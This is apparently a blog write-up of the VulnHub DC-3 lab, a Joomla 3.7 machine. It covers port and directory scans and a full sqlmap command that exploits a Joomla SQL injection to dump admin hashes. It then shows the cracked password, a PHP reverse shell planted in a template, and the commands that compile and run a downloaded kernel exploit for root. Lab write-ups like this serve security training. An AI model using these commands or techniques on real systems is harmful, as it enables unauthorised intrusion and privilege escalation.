 ```yaml
---
layout: "post"
title: "DC 3 Walkthrough"
categories: [vulnhub, DC-Series]
tags: [dc-3, easy, joomla, CVE]
---
```

DC-3 was an easy machine. The website was hosted on `Joomla`. There was a `sqli exploit` that gives the admin password. By using an admin panel upload the shell. Priv sec using `CVE`.  

# Summary

- Portscan
- `Gobuster` to findout directories
- Search exploit
- Use `sqlmap` to get admin password
- Crack the password using `John`
- Login to admin panel and inject reverse shell
- Get reverse shell
- Exploit Kernel using CVE 
- Getting Root
- Flag

# Recon

## Portscan

```
Nmap scan report for 192.168.1.7
Host is up (0.00030s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: Joomla! - Open Source Content Management
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Home

```
## Joomla

When I browse the website, I don't find out anything interesting.
![mainpage](/assets/img/dc-3/mainpage.png)
So, I started the gobuster to find out directories.

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.1.7 -x php,txt,html

/images (Status: 301)
/media (Status: 301)
/templates (Status: 301)
/modules (Status: 301)
/index.php (Status: 200)
/plugins (Status: 301)
/bin (Status: 301)
/includes (Status: 301)
/language (Status: 301)
/README.txt (Status: 200)
/components (Status: 301)
/cache (Status: 301)
/libraries (Status: 301)
/tmp (Status: 301)
/LICENSE.txt (Status: 200)
/layouts (Status: 301)
/administrator (Status: 301)
/configuration.php (Status: 200)
/htaccess.txt (Status: 200)
/cli (Status: 301)
/server-status (Status: 403)

```
# Sqli
The `README.txt` file revels the webserver is running Joomla and its version is 3.7.
![readme](/assets/img/dc-3/readme.png)
I search the exploit on searchsploit and get the exploit for Joomla. 
![searchsploit joomla](/assets/img/dc-3/searchsploit-joomla.png)

The exploit `php/webapps/42033.txt` tells that version is vulnerable to sqli.
So as per exploit I run sqlmap and get admin hash.

```bash
sqlmap -u "http://192.168.1.7/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb -T '#__users' -C name,password --dump 
```

>admin:$2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu

I use `John` to crack the password.
![john](/assets/img/dc-3/john.png)

>admin:snoopy

# Getting reverse shell.
Now I have username and password, I use those to log in to `Joomla`. By using admin panel I can edit the template files. So I paste the source code of php-reverse-shell in error.php of beez3 template and
get a reverse shell.
![shell](/assets/img/dc-3/shell.png)
![nc](/assets/img/dc-3/nc.png)

# Getting Root

I upload [linpeas](https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh) on server and run it. 
![ubuntu](/assets/img/dc-3/ubuntu.png)
The exploit is available on `searchsploit` for *ubuntu 16.04*
![exploit](/assets/img/dc-3/searchsploit-exploit.png)

I download the [exploit](https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip) from net and transfer to server. By executing the exploit I get root access.
```bash
unzip 39772.zip
cd 39772
tar xvf exploit.tar
cd ebpf_mapfd_doubleput_exploit/
./compile.sh
./doubleput
```
![1](/assets/img/dc-3/1.png)
![2](/assets/img/dc-3/2.png)

# The Flag
![root](/assets/img/dc-3/root.png)


 

